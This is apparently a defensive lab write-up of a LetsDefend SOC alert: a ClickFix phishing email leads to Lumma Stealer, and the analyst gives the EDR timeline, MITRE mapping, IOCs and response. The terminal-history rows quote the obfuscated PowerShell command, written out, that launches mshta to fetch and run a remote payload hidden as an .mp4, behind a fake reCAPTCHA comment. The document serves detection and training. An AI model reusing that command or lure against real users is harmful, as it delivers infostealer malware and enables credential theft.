







# SOC338 – Lumma Stealer: DLL Side-Loading via ClickFix Phishing

**Platform:** LetsDefend SOC Simulator | **Event ID:** 316 | **Severity:** Critical | **Difficulty:** Medium
**Analyst:** Sidharth V Nambiar | **Verdict:** ✅ True Positive (user executed payload, host contained)

---

## Summary
A fake "Upgrade your system to Windows 11 Pro for FREE" email led Dylan to a **ClickFix** page: a fake reCAPTCHA that tells the victim to paste a command into the Windows Run dialog. Dylan did, and a hidden, obfuscated PowerShell command launched `mshta.exe` to fetch a remote payload disguised as an `.mp4`. This chain is used to deliver **Lumma Stealer**, an infostealer that targets browser passwords, cookies and crypto wallets.

## Alert details
| Field | Value |
|---|---|
| Event time | 2025-03-13 09:44 (+03:00) |
| SMTP address | 132.232.40.201 |
| Sender | update@windows-update.site |
| Recipient | dylan@letsdefend.io |
| Subject | Upgrade your system to Windows 11 Pro for FREE |
| Device action | Allowed |
| Trigger reason | Redirected site contains a ClickFix-type script for Lumma Stealer distribution |
| MITRE tags | T1059, T1059.001, T1204, T1204.001, T1574, T1574.002, T1027, T1105 |

## Investigation

### 1. Email and URL
- Lookalike sender domain `windows-update[.]site` impersonating Microsoft
- VirusTotal: `hxxps://www.windows-update[.]site/` is flagged by **10/93** vendors (Kaspersky, BitDefender, Fortinet, Sophos, G-Data and others)
- The email body has a faint, hidden **"UPDATE NOW"** link and a fake countdown timer ("4 Day 23 Hours 59 Mins") to create urgency
- **Not spoofed:** the attacker sent from their own lookalike domain. The sender IP 132.232.40.201 is the same server Dylan's browser connected to.
- **Landing page (sandbox preview):** a fake Microsoft "Windows 11 Pro" page with a "Windows Pro" verification popup telling the user: *Step 1: press Windows + R → Step 2: press Ctrl + V → Step 3: press Enter*. The page silently copies the malicious command to the clipboard, which is the ClickFix technique.

### 2. Endpoint timeline (EDR – Dylan's host, 2025-03-13)
| Time | Evidence | Source |
|---|---|---|
| 23:26:08 | Visited `hxxps://windows-update[.]site/`, with a connection to 132.232.40.201 | Browser History / Network |
| 23:26:19 | `powershell.exe -w 1 powershell -Command ('ms]]]ht]]]a]]].]]]exe hxxps://overcoatpassably[.]shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']') # ✅ "I am not a robot - reCAPTCHA Verification ID: 3824"` | Terminal History |
| 23:26:20 | `mshta.exe` (PID 7284), parent `powershell.exe` | Processes |
| 23:26:20 | Outbound to 172.67.139.19 | Network |
| 23:26:31 | `powershell.exe -Command "mshta.exe hxxps://overcoatpassably[.]shop/Z8UZbPyVpGfdRS/maloy.mp4"` (PID 624, **parent explorer.exe**) | Terminal / Processes |
| 23:26:32 | Second obfuscated PowerShell run (PID 7308) | Terminal History |
| 23:26:36 to 23:28:11 | Outbound to 35.190.80.1, 77.88.21.119, 34.104.35.123 | Network |

### Key analysis points
- **Parent = explorer.exe** means PowerShell was launched by the user from Win+R. This is the ClickFix signature.
- **`-w 1`** runs PowerShell in a hidden window.
- **Obfuscation (T1027):** `]` characters break up `mshta.exe` to evade string matching, and `-replace ']'` rebuilds it at runtime.
- **Social-engineering comment:** everything after `#` is a PowerShell comment, so the victim only sees "I am not a robot – reCAPTCHA Verification" in the Run box.
- **mshta.exe** (a LOLBin) fetches and runs a remote HTA/script disguised as `maloy.mp4`.

## MITRE ATT&CK
| Technique | ID |
|---|---|
| User Execution: Malicious Link | T1204 / T1204.001 |
| PowerShell | T1059 / T1059.001 |
| Obfuscated Files or Information | T1027 |
| Ingress Tool Transfer | T1105 |
| Hijack Execution Flow: DLL Side-Loading | T1574 / T1574.002 |

## Response
- ✅ Phishing email deleted
- ✅ Host contained via EDR
- ✅ IOCs recorded

## Recommendations
- Block the domains and IPs below
- Reimage the host. Lumma is an infostealer, so **reset all of Dylan's passwords, revoke sessions and tokens, and rotate any credentials saved in the browser**
- Hunt for `mshta.exe` with remote URLs, and PowerShell with `-w 1` / `-replace` patterns whose parent is explorer.exe
- Consider restricting mshta.exe and the Run dialog through policy
- Run awareness training: **no legitimate CAPTCHA ever asks you to paste a command**

## IOCs
| Type | Value |
|---|---|
| Sender | `update@windows-update[.]site` |
| Domain | `windows-update[.]site` |
| URL (payload) | `hxxps://overcoatpassably[.]shop/Z8UZbPyVpGfdRS/maloy.mp4` |
| Domain | `overcoatpassably[.]shop` |
| IP (SMTP / site) | `132.232.40.201` |
| IP (post-exec) | `172.67.139.19`, `35.190.80.1`, `77.88.21.119` |

## Lessons learned
1. Process lineage is everything: **explorer.exe → powershell.exe → mshta.exe** gives the attack away.
2. Attackers hide commands behind comments and character-replacement tricks, so read the full command line.
3. Infostealer response goes beyond the host: credentials must be rotated.

## Tools used
LetsDefend SIEM (Email Security, EDR, Case Management) · VirusTotal · MITRE ATT&CK

## 📸 Evidence

**Alert details**

**Phishing email**

**Virustotal**

**Processes**

**Terminal history clickfix**

**Network connections**

**Browser history**

---
*Lab: LetsDefend (Hack The Box). Training-scenario indicators, defanged.*
